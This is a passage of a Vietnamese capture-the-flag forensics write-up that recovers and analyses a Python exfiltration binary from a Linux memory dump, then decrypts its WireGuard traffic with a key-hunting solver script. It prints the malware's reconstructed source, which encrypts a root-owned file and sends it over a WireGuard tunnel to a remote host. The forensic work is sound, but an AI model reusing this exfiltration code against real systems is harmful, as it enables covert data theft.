






# Harvesting Severed Threads

ở đây ta được cung cấp 3 file, 1 pcap, một file memory và 1 file ổ đĩa .img.
theo đề bài ta biết được file .img đã bị mã hóa ko đọc được, trong đề có cho hint rằng ra sẽ dùng mem để có thể giải mã disk từ đó mount ra và tìm flag, file memory thì là một file snapshot được dump ra từ một VM nên ta sẽ cần tải symbol linux cho đúng với kernel của file ram từ vm này từ đó mới có thể sử dụng.
sau khi phân tích như mở process hiện chạy trong ram và các lệnh được thực thi trong shell ta thấy có một folder khá bất thường
```
┌──(venv)(vuanh㉿Vanh)-[/mnt/d/Data/chall/htb/chall5]
└─$ vol -f memory.elf linux.bash
Volatility 3 Framework 2.28.0
Progress:  100.00               Stacking attempts finished
PID     Process CommandTime     Command

9030    bash    2026-06-27 23:19:57.000000 UTC  history
9030    bash    2026-06-27 23:19:57.000000 UTC  sdmem
9030    bash    2026-06-27 23:19:57.000000 UTC  sudo su
9030    bash    2026-06-27 23:20:13.000000 UTC  sudo ./dev_mnt/pyz/exfil
```
ở đây ta thấy ngta chạy một process exfil khá khả nghi
vì nó không phải process đang còn hoạt động vậy nên là ta sẽ không thể dump nó theo cách bth mà cần dùng plugin RecoverFs để dump ra
```
┌──(venv)(vuanh㉿Vanh)-[/mnt/d/Data/chall/htb/chall5/recovered_fs]
└─$ ls
00000000-0000-0000-0000-000000000000  80b415ab-7282-47b9-a63f-9701575b2ff0  b82a85e1-c252-4a7c-9870-b723059ce000
08a37e0c-e2ce-4832-b4cd-293839619fc3  822130f5-1bdd-47c5-892d-889183e96fa0  bb979f62-e7ce-48c9-b2b7-e0b7866fb9fe
1228d82b-7b3d-4c2e-82f7-f433a66fc8f0  877f644b-6c67-47af-8a02-41e37bb2afaf  c3031898-852b-4233-b8d3-a51eef80b29f
1d449032-a266-4f06-b5e1-d04e1adc74a3  88357962-c31c-4b90-b1b1-f37fb924a8c1  c4b5dfd6-b87a-4a44-9e1d-2143783f3515
215000e4-0000-0000-0000-000000000000  885fb440-a23e-42a4-9b68-d6e506667083  d03d149a-6697-4508-86e0-1ad1a5ea385b
221d30d9-7f91-425b-a435-8625a2bc865d  8a967b3d-020b-4491-9344-b177d3bfc94b  d4109bdf-1419-44f1-9ae1-e64c24c17c55
2d225d08-9d05-4bb7-bd90-9782778873fd  8e277c00-8fc6-49a5-bcd0-0f64f00371f3  db3a5c52-a3d9-4c9e-882d-392472c32120
32bbb164-9db8-4d13-8abe-d79c53d103d9  8fb428a7-01eb-40aa-ac75-63e142c600be  de8a6680-ddcd-4a8c-8d80-04a088b9da17
419f9bbd-aab8-4612-9fac-91f06b6c3991  a26d2fd4-06c1-4889-b938-86dd39635f24  e07e5edd-225b-4ace-9a2d-773e534941fb
5c57c2b6-f98f-48e7-9f2a-cef947c001e4  a6401cc0-b7b4-4ed2-979c-52f5c7066e6e  f0ad225f-fe0e-46ff-9246-05ed581e0ca6
6b15f7b7-3184-44e0-8d7b-0600b1e62aa4  b1c71006-3e89-493b-955f-1bc963975db7  recovered_fs.tar.gz
6ef1ec63-cc56-4e1b-a320-1a5f7e4c4fc3  b1e5f99c-3577-4c29-98bf-71978d704be3
73eb679e-6973-4f5a-be4e-6d53c8515829  b7b90633-2962-4453-b3e5-22ed34d9243e

┌──(venv)(vuanh㉿Vanh)-[/mnt/d/Data/chall/htb/chall5/recovered_fs]
└─$ find . -type f -name exfil -print
./80b415ab-7282-47b9-a63f-9701575b2ff0/home/dev5812/dev_mnt/pyz/exfil
```
ta check thấy này là PyInstaller binary

sử dụng 1 số tool để trích xuất cơ mà gặp phải một vấn đề vì file được viết bằng python 3.13 nên một số tool reverse chạy không ra được full source code sau một hồi loay hoay thì mình đã tái hiện đc từ disassembly của cái này
```
import ctypes
import hashlib
import os
import socket
import struct
import sys

from cryptography.hazmat.primitives.ciphers.aead import AESGCM


WG_IF_NAME = "enp12s01"
WG_CLIENT_PRIVATE_KEY = "GPXmuw+xS8WjAzjPvkECvLGd2iSRwcjFP+OWPbNzsUY="
WG_CLIENT_ADDRESS = "10.0.0.2/24"
WG_SERVER_PUBLIC_KEY = "34P8Lh/ROgOdv7ciFVw1BCfBlvn2H0TBuDpCd8FZaHE="
WG_SERVER_ENDPOINT = "192.168.56.1"
WG_SERVER_PORT = 51829
WG_LISTEN_PORT = 51820

HARDCODED_SECRET = b"https://www.youtube.com/watch?v=oHafFDkFgeg"
FILE_PATH = "/root/dummy.pdf"
SEND_DST = ("10.0.0.1", 9999)

libc = ctypes.CDLL("libc.so.6", use_errno=True)


def purge_file_cache(path):
    fd = os.open(path, os.O_RDONLY)
    try:
        os.fsync(fd)
        os.sync()
        size = os.fstat(fd).st_size
        os.posix_fadvise(fd, 0, size, os.POSIX_FADV_DONTNEED)
    finally:
        os.close(fd)


def secure_wipe(addr, nbytes):
    libc.memset(ctypes.c_void_p(addr), 0x00, ctypes.c_size_t(nbytes))
    libc.memset(ctypes.c_void_p(addr), 0xAA, ctypes.c_size_t(nbytes))
    libc.memset(ctypes.c_void_p(addr), 0x55, ctypes.c_size_t(nbytes))
    libc.memset(ctypes.c_void_p(addr), 0x00, ctypes.c_size_t(nbytes))


def create_wireguard_interface():
    from pyroute2 import NDB, WireGuard

    with NDB() as ndb:
        with ndb.interfaces.create(
            kind="wireguard",
            ifname=WG_IF_NAME,
        ) as link:
            link.add_ip(WG_CLIENT_ADDRESS)
            link.set(state="up")

    wg = WireGuard()
    peer = {
        "public_key": WG_SERVER_PUBLIC_KEY,
        "endpoint_addr": WG_SERVER_ENDPOINT,
        "endpoint_port": WG_SERVER_PORT,
        "persistent_keepalive": 25,
        "allowed_ips": ["0.0.0.0/0"],
    }

    wg.set(
        WG_IF_NAME,
        private_key=WG_CLIENT_PRIVATE_KEY,
        listen_port=WG_LISTEN_PORT,
        peer=peer,
    )


def encrypt_and_wipe_plaintext(buf):
    key = hashlib.sha256(HARDCODED_SECRET).digest()
    nonce = os.urandom(12)
    aesgcm = AESGCM(key)

    ct = aesgcm.encrypt(nonce, buf, None)

    buf_addr = (ctypes.c_ubyte * len(buf)).from_buffer(buf)
    secure_wipe(ctypes.addressof(buf_addr), len(buf))

    return nonce + ct


def run():
    if os.geteuid() != 0:
        print("must be root", file=sys.stderr)
        sys.exit(1)

    if not os.path.exists(FILE_PATH):
        print(f"not found: {FILE_PATH}", file=sys.stderr)
        sys.exit(1)

    print("[*] reading file into mutable buffer ...")
    with open(FILE_PATH, "rb") as f:
        buf = bytearray(f.read())

    print("[*] purging page cache ...")
    purge_file_cache(FILE_PATH)

    print("[*] creating wireguard interface ...")
    create_wireguard_interface()

    print("[*] encrypting & wiping plaintext from memory ...")
    payload = encrypt_and_wipe_plaintext(buf)

    del buf
    libc.malloc_trim(0)

    print("[*] purging page cache again ...")
    purge_file_cache(FILE_PATH)

    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.settimeout(10)

    try:
        sock.connect(SEND_DST)
        sock.sendall(struct.pack("!I", len(payload)))
        sock.sendall(payload)
        print(f"sent {len(payload)} encrypted bytes to {SEND_DST}")
    finally:
        sock.close()

    print("[+] done")


if __name__ == "__main__":
    run()
```
cơ mà thực tế bài này tái hiện full thì hơi dài dòng chứ logic giải ko phức tạp đến thế ta sẽ dùng tool pycdc để decompiler ra dù không full nhưng cũng đủ để hiểu logic rồi.

ở đây ta thấy 'https://www.youtube.com/watch?v=oHafFDkFgeg' được gán vào biến secret sau đó biến secret sẽ được dùng để tạo 32 byte làm key cho aes-256 để mã hóa pdf rồi cộng thêm 16 byte authentication tag, ngoài ra còn sinh thêm 12 byte nonce ngẫu nhiên rồi cộng vào cyphertext ra payload để truyền đi có thể hiểu ntn 
`payload= cyphertext + authentication_tag + nonce`
Cơ mà để cho chắc hacker còn kết nối tới 1 server wireguard với ip 192.168.56.1 và port 51829, cụ thể trong máy nạn nhân hacker đã tạo 1 card mạng ảo với tên enp12s01 và ip là 10.0.0.2/24
ở đây ta sẽ thấy trong này có 2 key một là client private key và server public key đây là loại mã hóa Diffie–Hellman nơi mà cả server và client đều sẽ có thể giải mã bằng khóa họ có kiểu như 3+1 và 2+2 đều sẽ ra kết quả là 4 vậy nên 2 bên đều có thể giải mã kết quả dù không biết khóa private của nhau, tuy nhiên thực tế phép tính sẽ phức tạp hơn nhiều để ko dễ gì đoán ra khóa riêng của 2 bên, ở đây wireguard sẽ mã hóa đường truyền TCP 10.0.0.2 → 10.0.0.1:9999 rồi chuyển ra ngoài bằng UDP 192.168.56.101:51820 → 192.168.56.1:51829 

cơ mà mặc dù biết 2 cái kia vẫn là chưa đủ cơ sở để giải mã, ở đây theo tài liệu về wireguard https://www.wireguard.com/protocol/#data-keys-derivation ta biết rằng sau handshake sẽ có 2 transport key đó là sending_key và receiving_key, nó là cái dùng để mã hóa traffic trong wireguard, theo tài liệu thì client sẽ dùng sending_key để mã hóa luồng từ client đến server và receiving_key từ server về client, flow là ta sẽ tìm key trong ram và dùng thuật toán ChaCha20 để giải mã wireguard packets nhằm tìm ra inner tcp có chứa file đã exfil.

ý tưởng là ta sẽ dùng 1 script, ở đây ta đã có client index lấy từ handshake, nó là 0x44ca6c02, từ client index này ta sẽ tìm trong ram xem ở đâu chứa giá trị này và tìm sending_key và receiving_key, thông qua source code kernel của WireGuard có thể tìm qua các link này https://github.com/WireGuard/wireguard-linux/blob/stable/drivers/net/wireguard/noise.h 
và
https://github.com/WireGuard/wireguard-linux/blob/stable/drivers/net/wireguard/peerlookup.h gồm 4 cái cần là noise.h, noise.c và peerlookup.h, peerlookup.c
ở noise.h ta có
```
struct noise_keypair {
	struct index_hashtable_entry entry;
	struct noise_symmetric_key sending;
	atomic64_t sending_counter;
	struct noise_symmetric_key receiving;
	struct noise_replay_counter receiving_counter;
	__le32 remote_index;
	bool i_am_the_initiator;
	struct kref refcount;
	struct rcu_head rcu;
	u64 internal_id;
};
```
ta thấy xác định được key_sending và key_receiving ở sau ta sẽ phân tích được thứ tự qua noise.h, thông qua peerlookup.h
```
struct index_hashtable_entry {
	struct wg_peer *peer;
	struct hlist_node index_hash;
	enum index_hashtable_type type;
	__le32 index;
};
```
ta nhận ra theo tài liệu wireguard có một dòng ntn 
```
msg.sender_index = little_endian(initiator.sender_index)
```
và 1 dòng ntn
```
u32 sender_index
```

nghĩa là khi handshake client sẽ tạo ra một index đó là lí do ta gọi đó là client index, trong tài liệu nó sẽ là sender_index và lưu dưới dạng little_endian
trong noise.c ta có thể thấy 1 hàm handshake
```
ret = wg_index_hashtable_replace(
	handshake->entry.peer->device->index_hashtable,
	&handshake->entry, &new_keypair->entry);
```
và trong peerlookup.c
```
bool wg_index_hashtable_replace(struct index_hashtable *table,
				struct index_hashtable_entry *old,
				struct index_hashtable_entry *new)
{
	bool ret;

	spin_lock_bh(&table->lock);
	ret = !hlist_unhashed(&old->index_hash);
	if (unlikely(!ret))
		goto out;

	new->index = old->index;
```
tức là old=&handshake->entry sau đó old->index-> handshake sẽ là entry.index cái new cũng hiểu tương tự.
ngoài ra ở dưới ta thấy
```
entry->index = (__force __le32)get_random_u32();
```
và trong peerlookup.h khi ta check entry ta thấy `__le32 index;` tức là 32 bit little_edian vào index suy ra ta có thể khẳng định được giá trị client index cũng là ở đây .
ta có structure ở noise.h là
```
struct noise_keypair {
    entry;
    sending;
    sending_counter;
    receiving;
};
```
và cấu trúc của entry là 
```
struct index_hashtable_entry {
	struct wg_peer *peer;
	struct hlist_node index_hash;
	enum index_hashtable_type type;
	__le32 index;
};
```
ta sẽ thấy entry có
8 byte của peer, do có pointer=8 byte
16 byte của hlist_node, hslist gồm 2 pointer của next và pprev =16 byte
4 byte ở type, do enum có size 4 byte
và 32bit=4byte của index client
-> ý tưởng script của ta sẽ dò ram và tìm ra index client và rồi trừ ngược lại để xuất phát ở entry từ đó tính toán để lấy được 2 key từ sending và receiving từ đó giải mã.
Ta biết từ trước tổng độ dài entry là 32 byte, suy ra ta biết tính sending sẽ là vị trí entry cộng 32 byte sẽ thấy được key, check của sending
```
struct noise_symmetric_key {
	u8 key[NOISE_SYMMETRIC_KEY_LEN];
	u64 birthdate;
	bool is_valid;
};
```
ta sẽ có 32 byte từ key, 8 byte của birthday và 1 byte của bool từ đó sẽ ra độ dài của sending là 41 byte vì u64 nên sẽ làm tròn lên 48 byte, sau khi có key sending ta sẽ tìm key receiving ở sending_counter có 8 byte vậy nên khi tìm receiving cộng thêm 8 byte nữa để skip qua sending_counter, sau khi có key sẽ tự động thử giải mã wireshark xem có tìm được luồng tcp ta thấy trong malware ko.
script mình sử dụng
```
#!/usr/bin/env python3


from __future__ import annotations

import argparse
import base64
import json
import mmap
import re
import shutil
import struct
import subprocess
import sys
from pathlib import Path

try:
    from cryptography.hazmat.primitives import serialization
    from cryptography.hazmat.primitives.asymmetric.x25519 import X25519PrivateKey
    from cryptography.hazmat.primitives.ciphers.aead import ChaCha20Poly1305
except ImportError:
    raise SystemExit(
        "[-] Missing dependency: cryptography\n"
        "    Install it with: python3 -m pip install cryptography"
    )


# Recovered from the malware.
CLIENT_STATIC_PRIVATE_B64 = "GPXmuw+xS8WjAzjPvkECvLGd2iSRwcjFP+OWPbNzsUY="
SERVER_STATIC_PUBLIC_B64 = "34P8Lh/ROgOdv7ciFVw1BCfBlvn2H0TBuDpCd8FZaHE="
WG_INTERFACE_NAME = b"enp12s01"

# x86_64 layout used by the in-kernel WireGuard implementation.
#
# struct index_hashtable_entry:
#   +0x00 peer pointer
#   +0x08 hlist_node (16 bytes)
#   +0x18 enum type
#   +0x1c __le32 index
#
# struct noise_keypair:
#   +0x00 index_hashtable_entry
#   +0x20 sending.key[32]
#   +0x48 sending.is_valid
#   +0x58 receiving.key[32]
#   +0x80 receiving.is_valid
ENTRY_TYPE_OFF = 0x18
ENTRY_INDEX_OFF = 0x1C
SENDING_KEY_OFF = 0x20
SENDING_VALID_OFF = 0x48
RECEIVING_KEY_OFF = 0x58
RECEIVING_VALID_OFF = 0x80
INDEX_HASHTABLE_KEYPAIR = 2


class FindError(RuntimeError):
    pass


def parse_args() -> argparse.Namespace:
    parser = argparse.ArgumentParser(
        description="Recover and verify WireGuard keys from memory.elf"
    )
    parser.add_argument(
        "memory",
        nargs="?",
        type=Path,
        default=Path("memory.elf"),
        help="Linux memory dump (default: memory.elf)",
    )
    parser.add_argument(
        "pcap",
        nargs="?",
        type=Path,
        default=Path("capture.pcapng"),
        help="WireGuard capture (default: capture.pcapng)",
    )
    return parser.parse_args()


def require_tshark() -> str:
    tshark = shutil.which("tshark")
    if not tshark:
        raise FindError(
            "tshark was not found.\n"
            "Install it with: sudo apt install tshark"
        )
    return tshark


def run_tshark(
    tshark: str,
    pcap: Path,
    fields: list[str],
    display_filter: str,
) -> list[list[str]]:
    command = [
        tshark,
        "-n",
        "-r",
        str(pcap),
        "-Y",
        display_filter,
        "-T",
        "fields",
        "-E",
        "separator=\t",
        "-E",
        "occurrence=f",
    ]

    for field in fields:
        command.extend(["-e", field])

    proc = subprocess.run(
        command,
        text=True,
        capture_output=True,
        check=False,
    )

    if proc.returncode != 0:
        raise FindError(f"TShark failed:\n{proc.stderr.strip()}")

    rows: list[list[str]] = []
    for line in proc.stdout.splitlines():
        if not line.strip():
            continue
        columns = line.rstrip("\r\n").split("\t")
        columns += [""] * (len(fields) - len(columns))
        rows.append(columns[: len(fields)])

    return rows


def parse_raw_bytes(text: str) -> bytes:
    value = text.strip()
    if not value:
        return b""

    compact = value.replace(":", "").replace(" ", "")
    if re.fullmatch(r"[0-9a-fA-F]+", compact) and len(compact) % 2 == 0:
        return bytes.fromhex(compact)

    raise FindError(f"Cannot parse raw bytes from TShark field: {text!r}")


def parse_wireguard_message(
    raw: bytes,
    frame: int,
    src: str,
    dst: str,
) -> dict:
    if len(raw) < 4:
        raise FindError(f"Frame {frame}: WireGuard message is too short")

    message_type = struct.unpack_from("<I", raw, 0)[0]
    item = {
        "frame": frame,
        "type": message_type,
        "src": src,
        "dst": dst,
        "raw": raw,
    }

    if message_type == 1:
        # Handshake Initiation:
        # type(4) | sender(4) | ephemeral_public(32) | ...
        if len(raw) < 40:
            raise FindError(f"Frame {frame}: truncated Handshake Initiation")
        item.update(
            sender=struct.unpack_from("<I", raw, 4)[0],
            receiver=None,
            ephemeral=raw[8:40],
        )

    elif message_type == 2:
        # Handshake Response:
        # type(4) | sender(4) | receiver(4) | ephemeral_public(32) | ...
        if len(raw) < 44:
            raise FindError(f"Frame {frame}: truncated Handshake Response")
        item.update(
            sender=struct.unpack_from("<I", raw, 4)[0],
            receiver=struct.unpack_from("<I", raw, 8)[0],
            ephemeral=raw[12:44],
        )

    elif message_type == 4:
        # Transport Data:
        # type(4) | receiver(4) | counter(8) | ciphertext_and_tag
        if len(raw) < 32:
            raise FindError(f"Frame {frame}: truncated Transport Data")
        item.update(
            receiver=struct.unpack_from("<I", raw, 4)[0],
            counter=struct.unpack_from("<Q", raw, 8)[0],
            encrypted=raw[16:],
        )

    return item


def extract_capture_info(tshark: str, pcap: Path) -> dict:
    rows = run_tshark(
        tshark,
        pcap,
        ["frame.number", "ip.src", "ip.dst", "udp.payload"],
        "wg",
    )

    initiation = None
    response = None
    transport: list[dict] = []

    for frame_text, src, dst, udp_payload in rows:
        if not frame_text or not udp_payload:
            continue

        frame = int(frame_text, 0)
        raw = parse_raw_bytes(udp_payload)
        item = parse_wireguard_message(raw, frame, src, dst)

        if item["type"] == 1 and initiation is None:
            initiation = item
        elif item["type"] == 2 and response is None:
            response = item
        elif item["type"] == 4:
            transport.append(item)

    if initiation is None:
        raise FindError("WireGuard Handshake Initiation was not found")
    if response is None:
        raise FindError("WireGuard Handshake Response was not found")
    if not transport:
        raise FindError("No WireGuard Transport Data packets were found")

    if response["receiver"] != initiation["sender"]:
        raise FindError(
            "Handshake indexes are inconsistent: "
            "response.receiver != initiation.sender"
        )

    return {
        "initiation": initiation,
        "response": response,
        "data": transport,
    }


def x25519_public(private_key: bytes) -> bytes:
    return (
        X25519PrivateKey.from_private_bytes(private_key)
        .public_key()
        .public_bytes(
            encoding=serialization.Encoding.Raw,
            format=serialization.PublicFormat.Raw,
        )
    )


def find_all(mm: mmap.mmap, needle: bytes) -> list[int]:
    hits: list[int] = []
    cursor = 0

    while True:
        hit = mm.find(needle, cursor)
        if hit < 0:
            return hits
        hits.append(hit)
        cursor = hit + 1


def print_hits(name: str, hits: list[int]) -> None:
    preview = ", ".join(f"{offset:#x}" for offset in hits[:10])
    suffix = "" if len(hits) <= 10 else f" ... ({len(hits)} total)"
    print(f"    {name}: {preview or 'NONE'}{suffix}")


def hunt_ephemeral_private(mm: mmap.mmap, info: dict) -> bytes | None:
    client_static_private = base64.b64decode(CLIENT_STATIC_PRIVATE_B64)
    server_static_public = base64.b64decode(SERVER_STATIC_PUBLIC_B64)
    client_static_public = x25519_public(client_static_private)

    client_ephemeral_public = info["initiation"]["ephemeral"]
    server_ephemeral_public = info["response"]["ephemeral"]

    patterns = {
        "client static private": client_static_private,
        "client static public": client_static_public,
        "server static public / remote_static": server_static_public,
        "client ephemeral public": client_ephemeral_public,
        "server ephemeral public": server_ephemeral_public,
        "interface name enp12s01": WG_INTERFACE_NAME,
    }

    print("\n[*] Raw-memory pattern hits:")
    hits_by_name: dict[str, list[int]] = {}

    for name, pattern in patterns.items():
        hits = find_all(mm, pattern)
        hits_by_name[name] = hits
        print_hits(name, hits)

    print("\n[*] Checking noise_handshake layout around remote_static hits ...")

    likely_remote_static_hits: list[int] = []

    for remote_static_hit in hits_by_name["server static public / remote_static"]:
        if remote_static_hit < 32 or remote_static_hit + 64 > len(mm):
            continue

        candidate_private = bytes(mm[remote_static_hit - 32 : remote_static_hit])
        remote_ephemeral = bytes(
            mm[remote_static_hit + 32 : remote_static_hit + 64]
        )

        if remote_ephemeral not in (
            server_ephemeral_public,
            b"\x00" * 32,
        ):
            continue

        likely_remote_static_hits.append(remote_static_hit)

        state = (
            "remote_ephemeral present"
            if remote_ephemeral == server_ephemeral_public
            else "remote_ephemeral zeroed"
        )

        print(
            f"    likely remote_static at file offset "
            f"{remote_static_hit:#x}: {state}"
        )

        if candidate_private == b"\x00" * 32:
            print("        ephemeral_private field is zeroed")
            continue

        try:
            derived_public = x25519_public(candidate_private)
        except ValueError:
            continue

        if derived_public == client_ephemeral_public:
            print(
                "[+] FOUND LOCAL_EPHEMERAL_PRIVATE_KEY directly at "
                f"{remote_static_hit - 32:#x}"
            )
            return candidate_private

    # Search nearby aligned data for a stale copy.
    for remote_static_hit in likely_remote_static_hits:
        start = max(0, remote_static_hit - 0x4000)
        end = min(len(mm) - 32, remote_static_hit + 0x4000)
        aligned_start = (start + 7) & ~7

        print(
            f"[*] Testing aligned 32-byte candidates near "
            f"{remote_static_hit:#x} ({start:#x}..{end:#x})"
        )

        for offset in range(aligned_start, end + 1, 8):
            candidate = bytes(mm[offset : offset + 32])
            if candidate == b"\x00" * 32:
                continue

            try:
                if x25519_public(candidate) == client_ephemeral_public:
                    print(
                        "[+] FOUND stale LOCAL_EPHEMERAL_PRIVATE_KEY at "
                        f"{offset:#x}"
                    )
                    return candidate
            except ValueError:
                continue

    return None


def decrypt_transport(key: bytes, packet: dict) -> bytes | None:
    nonce = b"\x00" * 4 + struct.pack("<Q", packet["counter"])

    try:
        return ChaCha20Poly1305(key).decrypt(
            nonce,
            packet["encrypted"],
            None,
        )
    except Exception:
        return None


def looks_like_inner_packet(plain: bytes) -> bool:
    # Empty plaintext is a valid WireGuard keepalive.
    if not plain:
        return True

    version = plain[0] >> 4

    if version == 4:
        if len(plain) < 20:
            return False

        ihl = (plain[0] & 0x0F) * 4
        total_length = struct.unpack_from("!H", plain, 2)[0]

        return (
            ihl >= 20
            and total_length >= ihl
            and total_length <= len(plain)
        )

    if version == 6:
        if len(plain) < 40:
            return False

